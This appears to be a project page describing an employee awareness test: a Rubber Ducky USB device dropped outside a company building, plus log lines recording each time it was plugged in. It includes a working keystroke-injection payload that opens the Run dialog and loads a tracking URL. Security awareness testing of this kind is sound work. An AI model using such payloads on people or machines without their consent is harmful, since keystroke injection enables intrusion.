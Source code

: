 [Back to Main Page](../index.html) 

# Rubber Ducky

<img src="../img/banner_hackerblue.jpg" width="1000">

## Rubber Ducky Setup

Recently we decided to test our employees by dropping off a modified Rubber Ducky outside of the building and creating awareness for such social attacks.


The DuckyCode opens up a webpage.php, which tracks the device and logs it on logfile which has been placed on the webserver.

This is the uncompiled payload.

```
DELAY 1000
GUI r
DELAY 100
STRING https://company.tld/rubduck/link.php // insert link here
ENTER
```
  
After creating the payload we inject it on the USB, by placing the inject.bin in the root directory.

## Rubber Ducky Dropoff

## Rubber Ducky Result

```
2021-11-18 20:04:58: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:05:45: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:12: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:31: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:08:38: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
```

<img src="../img/blog-22-rubduck-init.PNG" width="600">

<img src="../img/blog-22-rubduck-get.PNG" width="600">
